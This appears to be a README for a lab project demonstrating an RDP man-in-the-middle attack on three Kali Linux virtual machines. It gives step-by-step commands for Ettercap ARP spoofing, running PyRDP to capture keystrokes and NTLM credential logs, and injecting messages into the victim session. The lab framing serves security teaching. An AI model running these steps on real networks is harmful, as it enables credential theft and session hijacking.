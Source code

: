 
# RDP MITM Attack Project

## Objective
Demonstrate a Man-in-the-Middle (MITM) attack on a Remote Desktop Protocol (RDP) session to capture sensitive data and highlight the importance of securing remote connections.

## Prerequisites
- **Operating System**: Kali Linux (3 virtual machines)
- **Tools**:
  - PyRDP (RDP MITM tool)
  - Ettercap (ARP spoofing)
  - Remmina (RDP client)
  - Wireshark (optional, for traffic analysis)
  - xRDP (RDP service on the server machine)

---

## Installation Steps

### Step 1: Environment Setup

#### Install xRDP on Machine A (Server)
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
sudo ufw allow 3389/tcp
```

#### Verify xRDP Installation
```bash
sudo systemctl status xrdp
```

#### Install Remmina on Machine B (Client)
```bash
sudo apt update
sudo apt install remmina remmina-plugin-rdp -y
```

#### Install Tools on Machine C (MITM)
```bash
sudo apt update
sudo apt install ettercap-text-only -y
pip install pyrdp
sudo apt install wireshark -y
```

---

### Step 2: ARP Spoofing Configuration on Machine C

#### Launch Ettercap
```bash
sudo ettercap -G
```
1. Select Network Interface.
2. Scan for Hosts in the Network.
3. Add Target 1: Machine A (Server).
4. Add Target 2: Machine B (Client).
5. Enable ARP Spoofing.

---

### Step 3: Launch PyRDP on Machine C
```bash
pyrdp-mitm --output-dir ./logs
```

---

### Step 4: Establish RDP Connection from Machine B to Machine A
1. Launch Remmina on Machine B.
2. Configure RDP Connection to the IP of Machine A.

---

### Step 5: Monitor and Analyze Traffic on Machine C

#### View Logs Captured by PyRDP
```bash
ls ./logs
```

#### Analyze Captured Keystrokes and Credentials
```bash
cat ./logs/mitm.log
cat ./logs/ntlmssp.log
```

#### Optional: Analyze Network Traffic with Wireshark
```bash
sudo wireshark
```

---

### Step 6: Inject Commands into RDP Session
```bash
pyrdp-inject --target <Target IP> --message "Hello from MITM"
```

---

### Additional Verification Commands

#### Verify ARP Table on Machine B
```bash
arp -a
```

#### Verify Open Ports on Machine A
```bash
sudo netstat -tuln | grep 3389
```

#### Check Network Connectivity
```bash
ping <IP of Machine A>
```

---

## License

This project is licensed under the MIT License. See the details below:

```
MIT License

Copyright (c) 2025 [Your Name or Organization]

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
